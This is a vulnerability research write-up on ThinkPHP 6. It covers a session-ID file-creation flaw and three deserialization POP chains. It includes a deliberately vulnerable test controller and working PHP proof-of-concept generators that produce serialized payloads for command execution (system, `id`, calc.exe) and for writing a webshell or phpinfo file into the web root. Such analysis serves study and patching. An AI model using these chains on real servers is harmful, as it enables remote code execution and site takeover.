#Environmental construction

> - [Reproduce source code download link](https://share.weiyun.com/dtE9mOaC)
> - Modify the configuration file and copy `.example.env` to `.env`

#Arbitrary file creation vulnerability
## Vulnerability Environment
> - Modify the content of `tp/app/controller/Index.php` to

```php
<?php
namespace app\controller;

use app\BaseController;

class Index extends BaseController
{
    public function index()
    {
        session('demo', $_REQUEST['H3rmesk1t']);
        return '<style type="text/css">*{ padding: 0; margin: 0; } div{ padding: 4px 48px;} a{color:#2E5CD5;cursor: pointer;text-decoration: none} a:hover{text-decoration:underline; } body{ background: #fff; font-family: "Century Gothic","Microsoft yahei"; color: #333;font-size:18px;} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.6em; font-size: 42px }</style><div style="padding: 24px 48px;"> <h1>:) </h1><p> ThinkPHP V' . \think\facade\App::version() . '<br/><span style="font-size:30px;">14 years of original intention remains unchanged - Your trustworthy PHP framework</span></p><span style="font-size:25px;">[ Version V6.0 by <a href="https://www.yisu.com/" target="yisu">Yisu Cloud</a> Exclusive sponsored release ]</span></div><script type="text/javascript" src="https://tajs.qq.com/stats?sId=64890268" charset="UTF-8"></script><script type="text/javascript" src="https://e.topthink.com/Public/static/client.js"></script><think id="ee9b1aa918103c4fc"></think>';
    }

    public function hello($name = 'ThinkPHP6')
    {
        return 'hello,' . $name;
    }
}
```
> - Modify the content of `tp/app/middleware.php` to

```php
<?php
// Global middleware definition file
Return [
    // Global request cache
    // \think\middleware\CheckRequestCache::class,
    // Multilingual loading
    // \think\middleware\LoadLangPack::class,
    // Session initialization
     \think\middleware\SessionInit::class
];
```
## Vulnerability Analysis
> - Check the version's update log and found that a hidden danger of sessionid check was fixed. [Related content](https://github.com/top-think/framework/commit/1bbe75019ce6c8e0101a6ef73706217e406439f2). The fix code mainly has more `ctype_alnum($id)`, which only `$id` is composed of letters and numbers.


> - Follow up on repairing the file `src/think/session/Store.php` and find it related to the file storage session

> - Follow up on the `setId()` method in `src/think/session/Store.php`, find its usage, and continue to follow up on the `handle()` method in `src/think/middleware/SessionInit.php`



> - The discovery variable `$sessionId` is controllable. You can set the value of the variable `$sessionId` through the `$cookieName` variable. Continue to follow up with the `getName()` method and follow up to `src/think/session/Store.php`. The fixed value of the variable `$this->name` is `PHPSESSID`, so the control to modify the value of the PHPSESSID in the cookie is triggered to the subsequent utilization.



> - Continue to analyze the `setId()` method in `src/think/session/Store.php`. If the corresponding value length of the PHPSESSID is equal to 32, then the value will be assigned directly without any filtering.



> - Continue to follow up, first return the value of `$response`, and then step into the `end()` method in `src/think/middleware/SessionInit.php` call the `save()` method of `src/think/session/Store.php`



> - Call the `write()` method and then enter the `src/think/session/driver/File.php` call the `write()` method and enter the `writeFile()` method to write the file contents



## Vulnerability Exploit







## Vulnerability Exploit Chain



# Deserialization vulnerability
## Vulnerability Environment
> - Modify the content of `tp/app/controller/Index.php` to

```php
<?php

namespace app\controller;
use app\BaseController;

class Index extends BaseController
{
    public function index()
    {
        if(isset($_POST['data'])){
            @unserialize(base64_decode($_POST['data']));
        }
        highlight_string(file_get_contents(__FILE__));
        return '<style type="text/css">*{ padding: 0; margin: 0; } div{ padding: 4px 48px;} a{color:#2E5CD5;cursor: pointer;text-decoration: none} a:hover{text-decoration:underline; } body{ background: #fff; font-family: "Century Gothic","Microsoft yahei"; color: #333;font-size:18px;} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.6em; font-size: 42px }</style><div style="padding: 24px 48px;"> <h1>:) </h1><p> ThinkPHP V' . \think\facade\App::version() . '<br/><span style="font-size:30px;">14 years of original intention remains unchanged - Your trustworthy PHP framework</span></p><span style="font-size:25px;">[ Version V6.0 by <a href="https://www.yisu.com/" target="yisu">Yisu Cloud</a> Exclusive sponsored release ]</span></div><script type="tex
t/javascript" src="https://tajs.qq.com/stats?sId=64890268" charset="UTF-8"></script><script type="text/javascript" src="https://e.topthink.com/Public/static/client.js"></script><think id="ee9b1aa918103c4fc"></think>';
    }
}
```

## Utilization conditions
> 1. There is a deserialization point with completely controllable content, for example: unserialize (controllable variable)
> 2. There is file upload, the file name is completely controllable, and file operation functions are used, such as: file_exists ('phar://malicious file')

## POP Chain-1
### Vulnerability Analysis
> - First find a deserialization trigger portal, search the `__destruct()` method globally



> - Follow up on the `__destruct()` method in `src/Model.php`. Since the variable `lazySave` is controllable, when its value is True, it will enter the if function, and then call the `save()` method



> - Follow up on the `save()` method, continue to follow up the `updateData()` method it calls the `checkAllowFields()` method in the `updateData()` method





> - Follow up on the `checkAllowFields()` method, continue to follow up on the `db()` method, and find that `$this->table` and `$this->suffix` are both controllable, so you can use this string splicing to trigger the `__toString()` method to invoke the subsequent chain



> - With the idea, continue to see how to get to the `checkAllowFields()` method without making any mistakes
> 1. Say `$this->lazySave` in `__destruct` method in `src/Model.php` is True and enter the `save()` method
> 2. The first if function of the `save()` method in `src/Model.php` is False, so as to bypass the return, that is, it needs to satisfy `$this->isEmpty()==false && $this->trigger('BeforeWrite')==true`; then go to the tri-item operator for judgment, and satisfy `$this->exists` value is True, so you enter the `updateData()` method
> 3. Satisfies the `true===$this->trigger('BeforeUpdate')` method in `src/Model.php` to bypass the first if judgment, and then needs to satisfy `$data!=null` to bypass the second if judgment and then enter the `checkAllowFields()` method
> 4. Satisfies the `$this->field=null && $this->schema=null` of the `db()` method in `src/Model.php`
> 5. Satisfies the `$this->table=null` of the `db()` method in `src/Model.php` to satisfy the string splicing and then triggers the `__toString()` method

> - Let's see how to find the trigger point of `__toString()`, search globally



> - Follow up on the `toJson()` method in `src/model/concern/Conversion.php`, and continue to follow up on the `toJson()` method found that the `toArray()` method was further called in the return value.



> - Follow up on the `getAttr()` method in the `toArray()` method



> - Follow up on the `getAttr()` method and found that the `getData()` method will be called further in the try-catch structure



> - Follow up on the `getData()` method and bypass the first if and then call the `getRealFieldName()` method further after judgment



> - Follow up on the `getRealFieldName()` method. When `$this->strict` is True, the value of `$name` will be directly returned



> - Now the return value can be obtained. Continue to go back to the previous `getData()` method. After the variable `$fieldName` gets the return value, enter the `array_key_exists()` method for judgment and return to the `$this->data[$fieldName]` method. Continue to go back to the `getAttr()` method. The variable `$value` receives the return value and then executes it to the return part call the `getValue()` method, enter this method, a noteworthy place `$value = $closure($value, $this->data)`, here `$closure` is the function name you want to execute, and `$value` and `$this->data` are parameters to implement any function execution.



> - At this point, the entire process of using the chain is basically obvious. Let’s see how to execute it to `$value = $closure($value, $this->data)`
> 1. First look at `$this->getRealFieldName($name)` to make `$this->strict==true`, so that it does not affect `$name`
> 2. Then enter if to determine whether `$this->withAttr[$fieldName]` is defined, so `$this->withAttr` must be added
> 3. Next, don't worry about the if judgment of `$relation`, pay attention to the last if judgment. Since the goal is to execute the code with else, just `is_array($this->withAttr[$fieldName])==false`, then let `$this->withAttr[$fieldName]=null`
> 4. The last assignment statement can control the name of the function you want to execute through `$this->withAttr[$fieldName]`, so that the purpose of execution of any function can be achieved.

### exp
> - Since `Model` is an abstract class, you need to find its inherited class, here you select the `Pivot` class



```php
<?php
namespace think;
abstract class Model{
    use model\concern\Attribute;
    use model\concern\ModelEvent;
    protected $table;
    private $force;
    private $exists;
    private $lazySave;
    private $data = [];
    function __construct($obj){
        $this->table = $obj;
        $this->force = true;
        $this->exists = true;
        $this->lazySave = true;
        $this->data = ["H3rmesk1t" => "calc.exe"];
    }
}

namespace think\model\concern;
trait ModelEvent{
    protected $withEvent = true;
    protected $visible = ["H3rmesk1t" => "1"];
}
trait Attribute{
    private $withAttr = ["H3rmesk1t" => "system"];
}

namespace think\model;
use think\Model;
class Pivot extends Model{
    function __constru
ct($obj = ''){
        parent::__construct($obj);
    }
}

echo base64_encode(serialize(new Pivot(new Pivot())));
?>
```


### POP chain flow chart



## POP Chain-2
### Vulnerability Analysis
> - Continue to analyze the `__destruct()` method I looked for earlier and follow up `vendor/league/flysystem-cached-adapter/src/Storage/AbstractCache.php`



> - Since `$this->autosave` is controllable, the `save()` method can be triggered. Since `AbstractCache` is an abstract class and its own `save()` method is not available, so look for the `save()` method that can be used in its inheritance class, and follow up on the `src/think/filesystem/CacheStore.php` method in `src/think/filesystem/CacheStore.php`



> - Continue to follow up on the `getForStorage()` method it calls and finds that it further calls the `cleanContents()` method



> - Follow up on the `cleanContents()` method, which calls the `array_flip()` method to invert the array to exchange keys and values ​​in the array, and then calculate the intersection of the array using the key name comparison



> Then the function will return `$contents` to `$cleaned` in `getForStorage()`, and then return it to the previous `save()` method after passing the `json_encode()` method. The `$contents` variable receives the return value of the function and enters the subsequent logic. At this time, `$this->store` is controllable. You can call the `set()` method of any class. If the specified class does not have the `set()` method, it may trigger `__call()`. Of course, it may also be possible to use the `set()` method of its own

### exp-1
> Find a `set()` method that can be used directly



> Follow up on the `set()` method in `src/think/cache/driver/File.php` and found that there is a `serialize()` method



> Continue to follow up with the `serialize()` method and find that the `$this->options` parameter is controllable, so that you can use `$this->options['serialize'][0]` to execute any function



> Then look at the source of the required parameter `$data`. The traceability found that it first comes from the value of `$value`, and then return to the `$contents` parameter of the `save()` method. Since the `$contents` parameter comes from the `getForStorage()` method, it needs to pass the `json_encode()` method, so the data after `json_encode` needs to be executed as code
> Due to json_encode, the command is wrapped in square brackets and cannot be executed normally. In Linux environment, the form `command` can be used to make the wrapped command execute priority



#### POC
```php
<?php

namespace League\Flysystem\Cached\Storage {
	abstract class AbstractCache {
		protected $autosave = false;
    	protected $complete = "`id`";
        // protected $complete = "\"&whoami&" ;
        // Backticks are invalid in Windows environment, use & replace
	}
}

namespace think\filesystem {
	use League\Flysystem\Cached\Storage\AbstractCache;
	class CacheStore extends AbstractCache {
		protected $key = "1";
		protected $store;
		public function __construct($store="") {
			$this->store = $store;
		}
	}
}

namespace think\cache {
	abstract class Driver {
		protected $options = ["serialize"=>["system"],"expire"=>1,"prefix"=>"1","hash_type"=>"sha256","cache_subdir"=>"1","path"=>"1"];
	}
}

namespace think\cache\driver {
	use think\cache\Driver;
	class File extends Driver{}
}

namespace {
	$file = new think\cache\driver\File();
	$cache = new think\filesystem\CacheStore($file);
	echo base64_encode(serialize($cache));
}
?>
```

#### POC chain flow chart



### exp-2
> Continue to follow up on the `set()` method in `src/think/cache/driver/File.php`, and there is also a `file_put_contents()` method after the `serialize()` method



> Mainly look at how the two parameters `$filename` and `$data` are assigned. First, follow up on the `$filename` parameter, its value comes from the `getCacheKey()` method. Follow up on this method and find that the `$filename` parameter is controllable: `$name` is the file name from `$this->key`, `$this->options['hash_type']` is also controllable. The final file name is hashed, so the final file name is controllable. `$this->options['path']` is constructed using `php filter` `php://filter/write=convert.base64-decode/resource=think/public/`
> Next, let's take a look at the `$data` parameter. The previous analysis is known to be from `$this->serialize`. Exit() exists here, which is used to combine the file name construction in the previous step to use `php://filter` to bypass death exit(). [Reference article](https://www.leavesongs.com/PENETRATION/php-filter-magic.html): Assuming the incoming `$expire=1`, then the valid characters that can be decoded in the previous part of the written webshell after splicing are: `php//00000000000001exit` has 21. To meet the rule that base64 decodes the rule that 4 characters are 1 group, add 3 characters in front of it for the escape. The impact of base64 decoding

#### POC
```php
<?php

namespace League\Flysystem\Cached\Storage {
    abstract class AbstractCache {
        protected $autosave = false;
        protected $complete = "uuuPD9waHAgcGhwaW5mbygpOw==";
    }
}

namespace think\filesystem {
    use League\Flysystem\Cached\Storage\AbstractCache;
    class CacheStore extends AbstractCache {
        protected $key = "1";
        protected $store;
        public function __construct
($store="") {
            $this->store = $store;
        }
    }
}

namespace think\cache {
    abstract class Driver {
        protected $options = ["serialize"=>["trim"],"expire"=>1,"prefix"=>false,"hash_type"=>"md5","cache_subdir"=>false,"path"=>"php://filter/write=convert.base64-decode/resource=C:/Tools/phpstudy_pro/WWW/html/ThinkPHP6/public/","data_compress"=>0];
    }
}

namespace think\cache\driver {
    use think\cache\Driver;
    class File extends Driver{}
}

namespace {
    $file = new think\cache\driver\File();
    $cache = new think\filesystem\CacheStore($file);
    echo base64_encode(serialize($cache));
}
?>
```



#### POC chain flow chart



## POP Chain-3
### Vulnerability Analysis
> The starting trigger chain is the same as the previous POP chain. Use the `save()` method in the `__destruct()` method of `src/Storage/AbstractCache.php` as the starting point to find a `save()` method of the inherited class as the trigger point. Follow up here the `save()` method in `src/Storage/Adapter.php` method. The value of `$contents` comes from the `getForStorage()` method. The processing here is the same as when analyzing the previous POP chain. Let's take a look at the subsequent if...else operation



> Since you need to write a file through the `write()` method, you need to make the return value after passing the `has()` method false. Here we first look for a class with both `has()` and `write()` methods.





> After checking the source code, I found that the `Local` class in `src/Adapter/Local.php` meets the requirements. Follow up on the `has()` method first.



> Follow up on the `applyPathPrefix()` method, which first calls the previous `getPathPrefix()` method, where `$pathPrefix` is controllable, and the `ltrim()` method deletes the `/` and `\` at the beginning of the string, so you can directly pass in a file name, then control pathPrefix as the path part, and then return to the `has()` method to execute the `file_exists()` method, and you only need to ensure that the passed file name does not exist to return false



> Let's take a look at the `write()` method. The value of `$location` comes from the file name processed by `$this->file`. The value of `$contents` is json data with file contents after `json_encode`.



### exp
```php
<?php

namespace League\Flysystem\Cached\Storage {
    abstract class AbstractCache {
        protected $autosave = false;
        protected $cache = ["H3rmesk1t" => "<?php phpinfo();?>"];
    }
}

namespace League\Flysystem\Cached\Storage {
    use League\Flysystem\Cached\Storage\AbstractCache;
    class Adapter extends AbstractCache {
        protected $file;
        protected $adapter;
        public function __construct($adapter = "") {
            $this->file = "C:/Tools/phpstudy_pro/WWW/html/ThinkPHP6/public/pop3.php";
            $this->adapter = $adapter;
        }
    }
}

namespace League\Flysystem\Adapter {
    class Local {
        protected $writeFlags = 0;
    }
}

namespace {
    $local = new League\Flysystem\Adapter\Local();
    $cache = new League\Flysystem\Cached\Storage\Adapter($local);
    echo base64_encode(serialize($cache));
}
?>
```




### POP chain flow chart

